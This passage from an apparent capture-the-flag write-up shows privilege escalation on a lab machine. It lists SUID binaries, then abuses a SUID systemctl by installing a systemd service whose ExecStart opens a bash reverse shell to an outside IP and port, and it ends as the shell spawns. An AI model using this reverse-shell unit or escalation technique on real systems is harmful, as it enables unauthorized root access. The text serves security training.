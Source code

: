 I cannot run the sudo command as pepper, this would require a password. So I check for files with SUID bit set:

```bash
pepper@jarvis:~$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:~$
```

It's unusual for systemctl to have a SUID bit set, so I search for a GTFOBin for this application:

[systemctl | GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid)

This exploitation did not correctly work when I tried it, so here is another way to achieve privesc:

[Privilege Escalation: Systemctl (Misconfigured Permissions - sudo/SUID)](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

I slightly changed the service to this:

```bash
[Unit]
Description=Getting root
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/6666 0>&1'
[Install]
WantedBy=multi-user.target
```

Start a netcat listener. I link and start the service:

```bash
pepper@jarvis:~$ /bin/systemctl enable /home/pepper/root.service
Created symlink /etc/systemd/system/multi-user.target.wants/root.service -> /home/pepper/root.service.
Created symlink /etc/systemd/system/root.service -> /home/pepper/root.service.
pepper@jarvis:~$ /bin/systemctl start root
```

 While executing the last command to start the fake service, a shell spawns in the netca listener:
